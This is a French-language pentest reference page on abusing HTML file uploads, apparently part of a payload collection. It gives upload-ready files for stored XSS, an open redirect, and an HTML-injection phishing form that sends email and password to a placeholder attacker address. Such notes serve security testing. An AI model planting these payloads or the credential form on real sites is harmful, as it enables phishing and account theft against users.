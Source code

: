 # HTML

<img src="logo_html5.png" title="" alt="" height="150">

**Facteur de risque** : XSS, HTML Injection, Open Redirection

**Extension** : `.html`, `.htm`

**Type MIME** : `text/html`

**Description** : Le **H**yper**T**ext **M**arkup **L**anguage (**HTML** ou **HTML5**) est un langage de balisage conçu pour représenter les pages web.

## Sommaire

- Cross-site scripting (XSS)

## Cross-site scripting (XSS)

### Pré-requis

- Le fichier doit être accessible après avoir été uploadé

### Attaque

Le code HTML suivant fait apparaître un pop up :

**xss.html**, **xss.htm**

```html
<!DOCTYPE html>
<html>
<body>

<h1>Stored XSS</h1>

<script>alert(1)</script>

</body>
</html>
```

## HTML Injection

### Pré-requis

- Le fichier doit être accessible après avoir été uploadé

### Attaque

Dans certaines contextes, le payload XSS peut être refusé. Mais l'injection de code HTML est toujours possible.
Pourvoir exécuter de l'HTML permet à un attaqueur d'effectuer du **phishing**, contourner le CSP (**CSP bypass**) etc.

Un exemple pour le phishing :

**html\_phishing.html**, **html\_phishing.htm**

```html
<!DOCTYPE html>
<html>
<body>
    <style>
        h1 {color: green}
    </style>
    <h1>HTML Injection : Phishing</h1>
    <b>Entrez vos identifiants :</b>
    <form action="http://xxx.xxx.xxx.xxx:1234" method="GET">
         <input type="text" name="email" placeholder="Email"/>
        <input type="password" name="password" placeholder="Mot de passe"/>
        <input type="submit" value="Submit"/>
    </form>
</body>
</html>
```

## Open Redirection

### Pré-requis

- Le fichier doit être accessible après avoir été uploadé

### Attaque

Le code suivant permet une redirection sur google.com :

**openredirect.html**, **openredirect.htm**

```html
<!DOCTYPE html>
<html>
<body>
<script>
    window.location = "https://www.google.com/";
</script>
</body>
</html>
```

## References

[PayloadsAllTheThings/xss.htm at master · swisskyrepo/PayloadsAllTheThings · GitHub](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/Files/xss.htm)

[PayloadsAllTheThings/xss.html at master · swisskyrepo/PayloadsAllTheThings · GitHub](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20HTML/xss.html)

[What Are HTML Injections | Acunetix](https://www.acunetix.com/blog/web-security-zone/html-injections/)

## Todo

Crée des fichiers JavaScript ?
